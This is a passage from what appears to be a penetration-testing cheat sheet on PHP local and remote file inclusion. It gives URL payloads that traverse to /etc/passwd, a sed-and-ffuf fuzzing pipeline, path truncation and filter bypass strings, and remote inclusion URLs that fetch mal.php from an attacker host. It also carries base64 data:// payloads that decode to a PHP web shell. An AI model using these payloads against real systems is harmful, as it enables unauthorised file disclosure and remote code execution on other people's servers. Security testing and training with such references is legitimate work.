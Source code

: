 you want to check if `/var/www/` contains a private directory, use the following payload:
 ```html
http://example.com/index.php?page=../../../var/www/private/../../../etc/passwd
```
The following sequence of commands allows the generation of payloads using sed (1) as input for url fuzzing tools such as ffuf (2):
```bash
# 1
sed 's_^_../../../var/www/_g' /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt | sed 's_$_/../../../etc/passwd_g' > payloads.txt

# 2
ffuf -u http://example.com/index.php?page=FUZZ -w payloads.txt -mr "root"
```

### Path truncation
Bypass the append of more chars at the end of the provided string (bypass of: `$_GET['param']."php"`)
```html
In PHP: /etc/passwd = /etc//passwd = /etc/./passwd = /etc/passwd/ = /etc/passwd/.
Check if last 6 chars are passwd --> passwd/
Check if last 4 chars are ".php" --> shellcode.php/.
```

```html
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)

http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```
> Always try to start the path with a fake directory (a/).
> 
> **This vulnerability was corrected in PHP 5.3**

### Filter bypass tricks
```html
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```

## Remote File Inclusion
In **php** this is disable by default because `allow_url_include` is **Off**. It must be On for it to work, and in that case you could include a PHP file from your server and get RCE:
```html
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```
If for some reason `allow_url_include` is **On**, but PHP is filtering access to external webpages, [according to this post](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/), you could use for example the data protocol with base64 to decode a b64 PHP code and egt RCE:
```html
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```
Another example not using the **`php://`** protocol would be:
```html
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```